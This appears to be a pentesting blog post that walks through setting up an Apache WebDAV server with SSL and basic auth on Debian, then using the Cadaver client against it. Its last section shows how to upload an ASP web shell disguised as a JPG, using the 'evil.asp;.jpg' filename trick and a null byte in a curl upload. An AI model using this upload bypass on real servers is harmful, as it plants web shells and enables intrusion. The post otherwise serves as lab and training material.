 ```yaml
---
title: "Setting Up A WebDav Server"
date: "2022-04-12"
description: "WebDAV works over HTTP and it has many benefits over transfer protocols such as FTP. These include strong encryption, robust authentication, proxy support, caching and multiple transfers through a single TCP connection (FTP requires a new connection for each file transferred.). This article looks at setting up a WebDav Server and then interacting with it via Cadaver."
coverimage: Setting_Up_A_WebDav_Server.jpg
tags: webdav
published: true
---
```

# Setting up a WebDav server

## Debian

Install apache2

```
root@vultr:~# apt-get install apache2
```

Enable the appropriate modules

```
root@vultr:~# a2enmod ssl
root@vultr:~# a2enmod dav_fs
root@vultr:~# a2enmod dav
```

Create an SSL certificate

```
mkdir /etc/apache2/ssl
openssl req $@ -new -x509 -days 365 -nodes -out /etc/apache2/ssl/apache.pem -keyout /etc/apache2/ssl/apache.pem
chmod 600 /etc/apache2/ssl/apache.pem
```

Create a webdav

```
root@vultr:~# mkdir /var/www/webdav
root@vultr:~# chown www-data:www-data /var/www/webdav
root@vultr:~# htpasswd -c /etc/apache2/passwd.webdav evilsaint
New password:
Re-type new password:
Adding password for user evilsaint
```

Edit the configuration file

```
root@vultr:~# cat <<EOF | tee /etc/apache2/sites-available/webdav.conf
<VirtualHost *:443>
         ServerAdmin user@host.com
         DocumentRoot /var/www/webdav
         ServerName mywebdav.lab
         DirectoryIndex disabled
         SSLEngine on
         SSLCertificateFile /etc/apache2/ssl/apache.pem
         Alias /webdav/ /var/www/webdav/

         <Location /webdav>
            DAV On
            AuthType Basic
            AuthName "webdav"
            AuthUserFile /etc/apache2/passwd.webdav
            Require valid-user
        </Location>

         ErrorLog  /var/log/webdav-error.log
         CustomLog /var/log/webdav-access.log combined
</VirtualHost>
EOF
```

Enable the site

```
a2ensite webdav
```

Restart the apache server

```
/etc/init.d/apache2 reload
```

We can now test with `cadaver` (see further info on this tool below)

```
root@evilsaint:/pentesting/enum# cadaver
dav:!> open https://104.238.128.52/webdav
WARNING: Untrusted server certificate presented for `myname':
Certificate was issued to hostname `myname' rather than `104.238.128.52'
This connection could have been intercepted.
Issued to: myorg, Widget maker, MYCITY, MYSTATE, UK
Issued by: myorg, Widget maker, MYCITY, MYSTATE, UK
Certificate is valid from Mon, 19 Mar 2018 22:57:50 GMT to Tue, 19 Mar 2019 22:57:50 GMT
Do you wish to accept the certificate? (y/n) y
Authentication required for webdav on server `104.238.128.52':
Username: evilsaint
Password:
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
       *test.txt                               0  Mar 19 23:31
dav:/webdav/> get test.txt
Downloading `/webdav/test.txt' to test.txt: [.] succeeded.
```

# Cadaver

We can use the tool Cadaver to interact with WebDAV servers.

We can query our cadaver version

```
cadaver -V
```

Start a cadaver connection to a webdav server.

```
cadaver 10.11.1.229
```

We can navigate directly into folders but we have to give a full web path

```
cadaver http://10.11.1.229/aspnet_client
```

## Upload Malicious Image Via Curl

To avoid the image content validator, we will prepend a valid JPG image to our ASP script

```
cat cat.jpg shell.asp > evil.asp;.jpg
```

```
curl --upload-file "evil.asp;.jpg" http://XX.XX.XX.XX/evil.asp;.jpg%00
```
